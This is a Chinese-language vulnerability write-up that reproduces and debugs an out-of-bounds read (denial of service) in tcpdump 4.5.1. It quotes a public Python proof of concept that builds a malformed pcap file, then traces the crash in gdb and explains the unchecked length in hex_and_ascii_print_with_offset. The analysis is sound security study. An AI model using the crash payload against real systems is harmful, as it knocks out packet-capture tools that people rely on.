



Author：wnagzihxa1n
Mail：tudouboom@163.com
Tcpdump在处理畸形pcap数据包时，未判断数据包中长度字段的合法性，导致的一个拒绝服务
在EXPKU上有Poc
EXP-DB上也有
不过Poc都是同一个
from subprocess import call
from shlex import split
from time import sleep
def crash():
command = 'tcpdump -r crash'
buffer = '\xd4\xc3\xb2\xa1\x02\x00\x04\x00\x00\x00\x00\xf5\xff'
buffer += '\x00\x00\x00I\x00\x00\x00\xe6\x00\x00\x00\x00\x80\x00'
buffer += '\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00<\x9c7@\xff\x00'
buffer += '\x06\xa0r\x7f\x00\x00\x01\x7f\x00\x00\xec\x00\x01\xe0\x1a'
buffer += "\x00\x17g+++++++\x85\xc9\x03\x00\x00\x00\x10\xa0&\x80\x18\'"
buffer += "xfe$\x00\x01\x00\x00@\x0c\x04\x02\x08\n', '\x00\x00\x00\x00"
buffer += '\x00\x00\x00\x00\x01\x03\x03\x04'
with open('crash', 'w+b') as file:
file.write(buffer)
try:
call(split(command))
print("Exploit successful! ")
except:
print("Error: Something has gone wrong!")
def main():
print("Author: David Silveiro ")
print(" tcpdump version 4.5.1 Access Violation Crash ")
sleep(2)
crash()
if __name__ == "__main__":
main()
开始切到Linux下，环境是Ubuntu 32位
先查看版本
wnagzihxain@toT0C:~$ tcpdump --version
tcpdump version 4.9.2
libpcap version 1.7.4
OpenSSL 1.0.2g 1 Mar 2016
这个版本太高，漏洞已经修复了
wnagzihxain@toT0C:~$ python Poc.py
Author: David Silveiro
tcpdump version 4.5.1 Access Violation Crash
reading from file crash, link-type IEEE802_15_4_NOFCS (IEEE 802.15.4 without FCS)
17:06:08.000000 IEEE 802.15.4 Beacon packet [|802.15.4]
tcpdump: pcap_loop: bogus savefile header
Exploit successful!
下载存在漏洞的版本源码，然后编译出来
要下载两个源码包
先编译libpcap-1.5.1，进入该源码目录
wnagzihxain@toT0C:~/tcpdump/source/libpcap-1.5.1$ ./configure
......
checking for flex... no
checking for bison... no
checking for capable lex... insufficient
configure: error: Your operating system's lex is insufficient to compile
libpcap. flex is a lex replacement that has many advantages, including
being able to compile libpcap. For more information, see
http://www.gnu.org/software/flex/flex.html .
报错，需要安装flex
wnagzihxain@toT0C:~/tcpdump/source/libpcap-1.5.1$ sudo apt install flex
执行make
wnagzihxain@toT0C:~/tcpdump/source/libpcap-1.5.1$ make
gcc -fpic -I. -DHAVE_CONFIG_H -D_U_="__attribute__((unused))" -g -O2 -c ./pcap-linux.c
......
./runlex.sh lex -oscanner.c scanner.l
yacc -d grammar.y
make: yacc：命令未找到
Makefile:455: recipe for target 'grammar.c' failed
make: *** [grammar.c] Error 127
报错，需要安装bison
wnagzihxain@toT0C:~/tcpdump/source/libpcap-1.5.1$ sudo apt install bison
继续make，通过
开始安装，这一步没有报错
wnagzihxain@toT0C:~/tcpdump/source/libpcap-1.5.1$ sudo make install
进入Tcpdump源码目录，执行
wnagzihxain@toT0C:~/tcpdump/source/tcpdump-4.5.1$ ./configure
wnagzihxain@toT0C:~/tcpdump/source/tcpdump-4.5.1$ make
wnagzihxain@toT0C:~/tcpdump/source/tcpdump-4.5.1$ sudo make install
很顺利的安装完成
查看版本，这里不导出环境变量，直接指定执行
wnagzihxain@toT0C:~/tcpdump/source/tcpdump-4.5.1$ ./tcpdump --version
./tcpdump: invalid option -- '-'
tcpdump version 4.5.1
libpcap version 1.5.1
Usage: tcpdump [-aAbdDefhHIJKlLnNOpqRStuUvxX] [ -B size ] [ -c count ]
[ -C file_size ] [ -E algo:secret ] [ -F file ] [ -G seconds ]
[ -i interface ] [ -j tstamptype ] [ -M secret ]
[ -P in|out|inout ]
[ -r file ] [ -s snaplen ] [ -T type ] [ -V file ] [ -w file ]
[ -W filecount ] [ -y datalinktype ] [ -z command ]
[ -Z user ] [ expression ]
然后我们将可执行文件拷贝出来，捕获一下数据看看
wnagzihxain@toT0C:~/Tcpdump 4.5.1 Denial Of Service Vulnerability$ sudo ./tcpdump -i ens33
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens33, link-type EN10MB (Ethernet), capture size 65535 bytes
14:45:52.003921 IP bogon.55709 > 239.255.255.250.1900: UDP, length 414
14:45:52.003929 IP bogon.55709 > 239.255.255.250.1900: UDP, length 406
14:45:52.003931 IP bogon.55709 > 239.255.255.250.1900: UDP, length 470
如果可以捕获数据说明我们编译这一步已经完成，接下来我们来跑一下Poc，如果是按照我这种方式编译的，需要修改一下Poc，改为本地的build
command = './tcpdump -r crash'
然后跑起来，因为读出来的数据实在太大，所以这里只能看到一部分

拉到最上面发现很多输出被截掉了，所以我们将输出保存到文件里
wnagzihxain@toT0C:~/Tcpdump 4.5.1 Denial Of Service Vulnerability$ python Poc.py > mRecord
确实很多很多，有8k行，这里截取部分输出数据
17:06:08.000000 IEEE 802.15.4 Beacon packet
0x0000: 39b8 ffff ffff da0e 06a8 ffff ffff dad9 9...............
0x0010: 1bb8 ffff ffff dbed e8a8 ffff ffff dcb8 ................
0x0020: fdb8 ffff ffff ddcd caa8 ffff ffff dea2 ................
0x0030: 1a38 ffff ffff df11 0000 0080 4c15 0940 .8..........L..@
0x0040: 4d15 0900 0000 0039 0000 0000 0000 0000 M......9........
0x0050: 0000 0000 0000 0000 0000 0001 0000 0001 ................
......
0x20ad0: 0000 0000 0000 0000 0000 0000 0000 0000 ................
0x20ae0: 0000 0000 0000 0000 0000 0000 0000 0000 ................
0x20af0: 0000 0000 0000 0000 0000 0000 0000 0000 ................
0x20b00: 0000 0000 0000 0000 0000 0000 0000 0000 ................
0x20b10: 0000 0000 0000 0000Author: David Silveiro
tcpdump version 4.5.1 Access Violation Crash
Exploit successful!
利用成功，我们来使用gdb跟踪下，看看哪里出了问题
wnagzihxain@toT0C:~/Tcpdump 4.5.1 Denial Of Service Vulnerability$ gdb ./tcpdump
设置参数，因为我们刚才测试Poc的时候就已经生成了这个crash文件，所以这里可以直接用
gdb-peda$ set args -r crash
运行起来
gdb-peda$ r
在很多输出闪过之后，断了下来
[----------------------------------registers-----------------------------------]
EAX: 0x5
EBX: 0x82213d5 --> 0xffffb839
ECX: 0x2e ('.')
EDX: 0x0
ESI: 0xbfffd9f9 ("......")
EDI: 0xbfffd9df --> 0x30303000 ('')
EBP: 0x10615
ESP: 0xbfffd99c --> 0x805416a (<hex_and_ascii_print_with_offset+170>: mov ecx,DWORD PTR [esp+0xc])
EIP: 0x805412a (<hex_and_ascii_print_with_offset+106>: movzx edx,BYTE PTR [ebx+ebp*2+0x1])
EFLAGS: 0x210296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x805411d <hex_and_ascii_print_with_offset+93>: je 0x8054200 <hex_and_ascii_print_with_offset+320>
0x8054123 <hex_and_ascii_print_with_offset+99>: mov ebx,DWORD PTR [esp+0x18]
0x8054127 <hex_and_ascii_print_with_offset+103>: sub esp,0x4
=> 0x805412a <hex_and_ascii_print_with_offset+106>: movzx edx,BYTE PTR [ebx+ebp*2+0x1]
0x805412f <hex_and_ascii_print_with_offset+111>: movzx ecx,BYTE PTR [ebx+ebp*2]
0x8054133 <hex_and_ascii_print_with_offset+115>: push edx
0x8054134 <hex_and_ascii_print_with_offset+116>: mov ebx,edx
0x8054136 <hex_and_ascii_print_with_offset+118>: mov DWORD PTR [esp+0x18],edx
[------------------------------------stack-------------------------------------]
0000| 0xbfffd99c --> 0x805416a (<hex_and_ascii_print_with_offset+170>: mov ecx,DWORD PTR [esp+0xc])
0004| 0xbfffd9a0 --> 0xb7fff000 --> 0x23f3c
0008| 0xbfffd9a4 --> 0x5
0012| 0xbfffd9a8 --> 0x2f5967 ('gY/')
0016| 0xbfffd9ac --> 0x0
0020| 0xbfffd9b0 --> 0x0
0024| 0xbfffd9b4 --> 0x7ffffff9
0028| 0xbfffd9b8 --> 0x82213d5 --> 0xffffb839
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
hex_and_ascii_print_with_offset (ident=0x80dfcef "\n\t",
cp=0x8242000 <error: Cannot access memory at address 0x8242000>, length=0xfffffff3, oset=0x20c20)
at ./print-ascii.c:91
91 s2 = *cp++;
这个位置其实可以看出很多信息，首先断在这个位置，这句指令是在读取某个地址的数据
=> 0x805412a <hex_and_ascii_print_with_offset+106>: movzx edx,BYTE PTR [ebx+ebp*2+0x1]
下面的输出显示该地址不可读，并且指出出现问题的源码位置（感觉跟开了挂一样）
Stopped reason: SIGSEGV
hex_and_ascii_print_with_offset (ident=0x80dfcef "\n\t",
cp=0x8242000 <error: Cannot access memory at address 0x8242000>, length=0xfffffff3, oset=0x20c20)
at ./print-ascii.c:91
91 s2 = *cp++;
先不去看源码，直接分析汇编
首先查看函数调用栈
gdb-peda$ bt
#0 hex_and_ascii_print_with_offset (ident=0x80dfcef "\n\t",
cp=0x8242000 <error: Cannot access memory at address 0x8242000>, length=0xfffffff3, oset=0x20c20)
at ./print-ascii.c:91
#1 0x080542e6 in hex_and_ascii_print (ident=0x80dfcef "\n\t",
cp=0x82213d5 "9\270\377\377\377\377\332\016\006\250\377\377\377\377\332\331\033\270\377\377\377\377\333\355\350\250\377\377\377\377ܸ\375\270\377\377\377\377\335\315ʨ\377\377\377\377ޢ\032\070\377\377\377\377\337\021",
length=0xfffffff3) at ./print-ascii.c:127
#2 0x0805233d in ieee802_15_4_if_print (ndo=0x821eb80 <Gndo>, h=0xbfffdbfc, p=<optimized out>)
at ./print-802_15_4.c:180
#3 0x080a230a in print_packet (user=0xbfffdccc "\200\353!\b\200!\005\b\001", h=0xbfffdbfc, sp=0x82213c0 "@\377")
at ./tcpdump.c:1950
#4 0x080c19f8 in pcap_offline_read (p=0x82211b8, cnt=0xffffffff, callback=0x80a22c0 <print_packet>,
user=0xbfffdccc "\200\353!\b\200!\005\b\001") at ./savefile.c:409
#5 0x080b3313 in pcap_loop (p=0x82211b8, cnt=0xffffffff, callback=0x80a22c0 <print_packet>,
user=0xbfffdccc "\200\353!\b\200!\005\b\001") at ./pcap.c:849
#6 0x0804b89d in main (argc=0x3, argv=0xbfffeeb4) at ./tcpdump.c:1569
#7 0xb7c34637 in __libc_start_main (main=0x804a9a0 <main>, argc=0x3, argv=0xbfffeeb4,
init=0x80d0890 <__libc_csu_init>, fini=0x80d08f0 <__libc_csu_fini>, rtld_fini=0xb7fea8a0 <_dl_fini>,
stack_end=0xbfffeeac) at ../csu/libc-start.c:291
#8 0x0804c705 in _start ()
因为我们知道这个漏洞触发的原因是没有对数据包的长度字段做判断导致的拒绝服务，所以现在来学习下pcap数据包格式
我们正常捕获一个文件进行格式分析，不要捕获太多数据包了，整个文件读出来会很长，捕获一两个比较好
wnagzihxain@toT0C:~/Tcpdump 4.5.1 Denial Of Service Vulnerability$ sudo ./tcpdump -i ens33 -c 2 -w test.pcap
[sudo] wnagzihxain 的密码：
tcpdump: listening on ens33, link-type EN10MB (Ethernet), capture size 65535 bytes
2 packets captured
2 packets received by filter
0 packets dropped by kernel
wnagzihxain@toT0C:~/Tcpdump 4.5.1 Denial Of Service Vulnerability$ hexdump -C test.pcap
00000000 d4 c3 b2 a1 02 00 04 00 00 00 00 00 00 00 00 00 |................|
00000010 ff ff 00 00 01 00 00 00 ec a9 44 5a 84 c9 04 00 |..........DZ....|
00000020 ab 00 00 00 ab 00 00 00 01 00 5e 7f ff fa 00 50 |..........^....P|
00000030 56 c0 00 08 08 00 45 00 00 9d 2f a5 00 00 04 11 |V.....E.../.....|
00000040 5d 07 c0 a8 79 01 ef ff ff fa e9 76 07 6c 00 89 |]...y......v.l..|
00000050 98 86 4d 2d 53 45 41 52 43 48 20 2a 20 48 54 54 |..M-SEARCH * HTT|
00000060 50 2f 31 2e 31 0d 0a 48 4f 53 54 3a 20 32 33 39 |P/1.1..HOST: 239|
00000070 2e 32 35 35 2e 32 35 35 2e 32 35 30 3a 31 39 30 |.255.255.250:190|
00000080 30 0d 0a 4d 41 4e 3a 20 22 73 73 64 70 3a 64 69 |0..MAN: "ssdp:di|
00000090 73 63 6f 76 65 72 22 0d 0a 4d 58 3a 20 35 0d 0a |scover"..MX: 5..|
000000a0 53 54 3a 20 75 72 6e 3a 73 63 68 65 6d 61 73 2d |ST: urn:schemas-|
000000b0 75 70 6e 70 2d 6f 72 67 3a 64 65 76 69 63 65 3a |upnp-org:device:|
000000c0 4d 65 64 69 61 52 65 6e 64 65 72 65 72 3a 31 0d |MediaRenderer:1.|
000000d0 0a 0d 0a ec a9 44 5a e1 53 06 00 ab 00 00 00 ab |.....DZ.S.......|
000000e0 00 00 00 01 00 5e 7f ff fa 00 50 56 c0 00 08 08 |.....^....PV....|
000000f0 00 45 00 00 9d 2f a6 00 00 04 11 5d 06 c0 a8 79 |.E.../.....]...y|
00000100 01 ef ff ff fa e9 76 07 6c 00 89 98 86 4d 2d 53 |......v.l....M-S|
00000110 45 41 52 43 48 20 2a 20 48 54 54 50 2f 31 2e 31 |EARCH * HTTP/1.1|
00000120 0d 0a 48 4f 53 54 3a 20 32 33 39 2e 32 35 35 2e |..HOST: 239.255.|
00000130 32 35 35 2e 32 35 30 3a 31 39 30 30 0d 0a 4d 41 |255.250:1900..MA|
00000140 4e 3a 20 22 73 73 64 70 3a 64 69 73 63 6f 76 65 |N: "ssdp:discove|
00000150 72 22 0d 0a 4d 58 3a 20 35 0d 0a 53 54 3a 20 75 |r"..MX: 5..ST: u|
00000160 72 6e 3a 73 63 68 65 6d 61 73 2d 75 70 6e 70 2d |rn:schemas-upnp-|
00000170 6f 72 67 3a 64 65 76 69 63 65 3a 4d 65 64 69 61 |org:device:Media|
00000180 52 65 6e 64 65 72 65 72 3a 31 0d 0a 0d 0a |Renderer:1....|
0000018e
在源码中找到对pcap格式的定义，大概就是一些无关紧要的Magic Number，版本号，时间戳等数据
struct pcap_file_header {
bpf_u_int32 magic;
u_short version_major;
u_short version_minor;
bpf_int32 thiszone; /* gmt to local correction */
bpf_u_int32 sigfigs; /* accuracy of timestamps */
bpf_u_int32 snaplen; /* max length saved portion of each pkt */
bpf_u_int32 linktype; /* data link type (LINKTYPE_*) */
};
手动对应太麻烦，直接模板

然后是数据帧部分，第一个成员是另一个结构体变量，这里不重要，问题在于数据帧的长度，也就是第三个变量出了问题
struct pcap_pkthdr {
struct timeval ts; /* time stamp */
bpf_u_int32 caplen; /* length of portion present */
bpf_u_int32 len; /* length this packet (off wire) */
};
这是我们生成的crash文件
wnagzihxain@toT0C:~/Tcpdump 4.5.1 Denial Of Service Vulnerability$ hexdump -C crash
00000000 d4 c3 b2 a1 02 00 04 00 00 00 00 f5 ff 00 00 00 |................|
00000010 49 00 00 00 e6 00 00 00 00 80 00 00 00 00 00 00 |I...............|
00000020 08 00 00 00 00 3c 9c 37 40 ff 00 06 a0 72 7f 00 |.....<.7@....r..|
00000030 00 01 7f 00 00 ec 00 01 e0 1a 00 17 67 2b 2b 2b |............g+++|
00000040 2b 2b 2b 2b 85 c9 03 00 00 00 10 a0 26 80 18 27 |++++........&..'|
00000050 78 66 65 24 00 01 00 00 40 0c 04 02 08 0a 27 2c |xfe$....@.....',|
00000060 20 27 00 00 00 00 00 00 00 00 01 03 03 04 | '............|
0000006e
我们这里只添加了一个数据帧，长度是0x379c3c00，贼大
00 3c 9c 37
到这里，我们继续调试，重新启动程序
gdb-peda$ start
这里有个小问题，就是默认开启优化进行编译，调试的时候是不按照指令的顺序执行的，所以如果觉得费劲的同学，可以在makefile里删除-g -O2选项，再次进行编译即可
先./configure，然后修改makefile，关键位置，把-g选项删掉，调试的时候就不会关联源码，也不会进行优化
CFLAGS = -DINET6 -g -O2
重新编译完成后，再次调试，可以看到已经不提示源码等信息了
[----------------------------------registers-----------------------------------]
EAX: 0xb7dcfdbc --> 0xbfffeeb4 --> 0xbffff0f4 ("LC_PAPER=zh_HK.UTF-8")
EBX: 0x0
ECX: 0xbfffee10 --> 0x3
EDX: 0xbfffee34 --> 0x0
ESI: 0xb7dce000 --> 0x1b1db0
EDI: 0xb7dce000 --> 0x1b1db0
EBP: 0xbfffedf8 --> 0x0
ESP: 0xbfffede8 --> 0xbfffee10 --> 0x3
EIP: 0x80c084b (<main+17>: sub esp,0x11c8)
EFLAGS: 0x200286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80c0848 <main+14>: push esi
0x80c0849 <main+15>: push ebx
0x80c084a <main+16>: push ecx
=> 0x80c084b <main+17>: sub esp,0x11c8
0x80c0851 <main+23>: mov eax,ecx
0x80c0853 <main+25>: mov DWORD PTR [ebp-0x11cc],eax
0x80c0859 <main+31>: mov eax,DWORD PTR [eax+0x4]
0x80c085c <main+34>: mov DWORD PTR [ebp-0x119c],eax
[------------------------------------stack-------------------------------------]
0000| 0xbfffede8 --> 0xbfffee10 --> 0x3
0004| 0xbfffedec --> 0x0
0008| 0xbfffedf0 --> 0xb7dce000 --> 0x1b1db0
0012| 0xbfffedf4 --> 0xb7dce000 --> 0x1b1db0
0016| 0xbfffedf8 --> 0x0
0020| 0xbfffedfc --> 0xb7c34637 (<__libc_start_main+247>: add esp,0x10)
0024| 0xbfffee00 --> 0xb7dce000 --> 0x1b1db0
0028| 0xbfffee04 --> 0xb7dce000 --> 0x1b1db0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Temporary breakpoint 2, 0x080c084b in main ()
我们再次直接run，此处依旧是越界访问，只是没有开优化导致汇编语句有些不一样，其实是一样的
[----------------------------------registers-----------------------------------]
EAX: 0x8256000
EBX: 0xbfffd998 (".......")
ECX: 0x8256001
EDX: 0xb7d626a0 --> 0x20002
ESI: 0x0
EDI: 0x5
EBP: 0xbfffdad8 --> 0xbfffdaf8 --> 0xbfffdb18 --> 0xbfffdb48 --> 0xbfffdb78 --> 0xbfffdbac (--> ...)
ESP: 0xbfffd940 --> 0x8126d2e --> 0x4700090a ('\n\t')
EIP: 0x80547ff (<hex_and_ascii_print_with_offset+112>: movzx eax,BYTE PTR [eax])
EFLAGS: 0x210202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80547f4 <hex_and_ascii_print_with_offset+101>: mov eax,ecx
0x80547f6 <hex_and_ascii_print_with_offset+103>: lea ecx,[eax+0x1]
0x80547f9 <hex_and_ascii_print_with_offset+106>: mov DWORD PTR [ebp-0x190],ecx
=> 0x80547ff <hex_and_ascii_print_with_offset+112>: movzx eax,BYTE PTR [eax]
0x8054802 <hex_and_ascii_print_with_offset+115>: movzx eax,al
0x8054805 <hex_and_ascii_print_with_offset+118>: mov ecx,eax
0x8054807 <hex_and_ascii_print_with_offset+120>: mov DWORD PTR [ebp-0x194],ecx
0x805480d <hex_and_ascii_print_with_offset+126>: mov edx,DWORD PTR [ebp-0x17c]
[------------------------------------stack-------------------------------------]
0000| 0xbfffd940 --> 0x8126d2e --> 0x4700090a ('\n\t')
0004| 0xbfffd944 --> 0x0
0008| 0xbfffd948 --> 0x8256001
0012| 0xbfffd94c --> 0x7ffef9e3
0016| 0xbfffd950 --> 0x922 ('"\t')
0020| 0xbfffd954 --> 0xb7c29618 --> 0x72647800 ('')
0024| 0xbfffd958 --> 0xb7c29148 --> 0x50a8
0028| 0xbfffd95c --> 0xbfffd97f --> 0x30303000 ('')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x080547ff in hex_and_ascii_print_with_offset ()
查看函数调用栈
gdb-peda$ bt
#0 0x080547ff in hex_and_ascii_print_with_offset ()
#1 0x08054a2e in hex_and_ascii_print ()
#2 0x080c2e1a in ndo_default_print ()
#3 0x0805219e in ieee802_15_4_if_print ()
#4 0x080c2c7f in print_packet ()
#5 0x080e8468 in pcap_offline_read (p=0x82351b8, cnt=0xffffffff, callback=0x80c2c13 <print_packet>,
user=0xbfffdcbc " :#\b\312\035\005\b\001") at ./savefile.c:409
#6 0x080d9d83 in pcap_loop (p=0x82351b8, cnt=0xffffffff, callback=0x80c2c13 <print_packet>,
user=0xbfffdcbc " :#\b\312\035\005\b\001") at ./pcap.c:849
#7 0x080c2229 in main ()
#8 0xb7c34637 in __libc_start_main (main=0x80c083a <main>, argc=0x3, argv=0xbfffeea4, init=0x80f7300 <__libc_csu_init>,
fini=0x80f7360 <__libc_csu_fini>, rtld_fini=0xb7fea8a0 <_dl_fini>, stack_end=0xbfffee9c) at ../csu/libc-start.c:291
#9 0x0804a3d3 in _start ()
从main()函数开始，最先进入的是pcap_loop()函数，我们整理出整个调用路径
0x080547ff hex_and_ascii_print_with_offset()
0x08054a2e hex_and_ascii_print()
0x080c2e1a ndo_default_print()
0x0805219e ieee802_15_4_if_print()
0x080c2c7f print_packet()
0x080e8468 pcap_offline_read()
0x080d9d83 pcap_loop()
0x080c2229 main()
重新启动，给上面列出来的第一个函数地址下断点，下完断点后进行查看
gdb-peda$ i b
Num Type Disp Enb Address What
3 breakpoint keep y 0x080547ff <hex_and_ascii_print_with_offset+112>
确定断点有效之后重新跑起来，然后我们走几步后发现这个位置其实是一个循环，这一直在循环读取数据
使用IDA反编译，到达该位置
然后发现这里是在循环读取数据帧进行输出，在读取的时候并没有对地址做判断，导致读取越界，最终造成拒绝服务

然后我们来看源码，源码的关键位置在最前面我们输出过的，这里截取关键的部分，传入的是数据帧的地址，然后进行循环读取，每次读取两个字节，所以前面有一个计算，并且将计算结果作为循环的判断条件，由于没有判断读取的内存地址是否合法以及没有判断数据帧长度的问题，导致的问题
void
hex_and_ascii_print_with_offset(register const char *ident,
register const u_char *cp, register u_int length, register u_int oset)
{
register u_int i;
register int s1, s2;
register int nshorts;
char hexstuff[HEXDUMP_SHORTS_PER_LINE*HEXDUMP_HEXSTUFF_PER_SHORT+1], *hsp;
char asciistuff[ASCII_LINELENGTH+1], *asp;
nshorts = length / sizeof(u_short);
i = 0;
hsp = hexstuff; asp = asciistuff;
while (--nshorts >= 0) {
s1 = *cp++;
s2 = *cp++;
(void)snprintf(hsp, sizeof(hexstuff) - (hsp - hexstuff),
" %02x%02x", s1, s2);
hsp += HEXDUMP_HEXSTUFF_PER_SHORT;
*(asp++) = (isgraph(s1) ? s1 : '.');
*(asp++) = (isgraph(s2) ? s2 : '.');
i++;
if (i >= HEXDUMP_SHORTS_PER_LINE) {
*hsp = *asp = '\0';
(void)printf("%s0x%04x: %-*s %s",
ident, oset, HEXDUMP_HEXSTUFF_PER_LINE,
hexstuff, asciistuff);
i = 0; hsp = hexstuff; asp = asciistuff;
oset += HEXDUMP_BYTES_PER_LINE;
}
}